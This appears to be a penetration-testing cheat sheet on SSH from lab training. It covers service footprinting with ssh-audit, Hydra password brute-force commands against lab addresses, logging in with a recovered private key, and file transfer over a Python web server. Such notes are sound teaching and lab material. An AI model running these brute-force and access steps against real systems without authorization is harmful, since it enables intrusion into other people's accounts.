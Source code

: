 ## Footprinting the Service
```
git clone https://github.com/jtesta/ssh-audit.git && cd ssh-audit
```
```
./ssh-audit.py 10.129.14.132
```
The first thing we can see in the first few lines of the output is the banner that reveals the version of the OpenSSH server. The previous versions had some vulnerabilities, such as CVE-2020-14145, which allowed the attacker the capability to Man-In-The-Middle and attack the initial connection attempt. The detailed output of the connection setup with the OpenSSH server can also often provide important information, such as which authentication methods the server can use.
For potential brute-force attacks, we can specify the authentication method with the SSH client option `PreferredAuthentications`.
```
ssh -v cry0l1t3@10.129.14.132 -o PreferredAuthentications=password
```
### Hydra usage SSH
```
hydra -l mitch -P /usr/share/seclists/Passwords/Common-Credentials/best110.txt 10.10.93.204 -s 2222 -t 4 ssh -V
```
```
hydra -L user.list -P password.list ssh://10.129.42.197
```
### SSH Additional Arguments
```
ssh -v -oHostKeyAlgorithms=+ssh-rsa username@ipaddress
```
https://www.redswitches.com/blog/ssh-permission-denied/
https://monovm.com/blog/ssh-permission-denied-publickey/
Make sure the public key is in the ~/.ssh/authorized_keys file (copy and paste the public key content in the authorized_keys on the host machine)
### Generating Public Key from Private Key
1. https://www.baeldung.com/linux/public-key-from-private-key
2. Having the private key I need to generate the public key using ssh-keygen
3. Create a file called rsa.pem and copy the private key to it
```
chmod 600 rsa.pem
```
```
ssh-keygen -f rsa.pem -y
```
4. Copy the public key and replace the public key available on your machine (in my case the name was id_ed25519.pub)
5. Next we should be able to login to SSH via public/private key pair
### SSH to Linux File Transfers
```
python3 -m http.server 8000
```
```
wget http://[sshIP]:8000/<FileNametoTransfer>
```
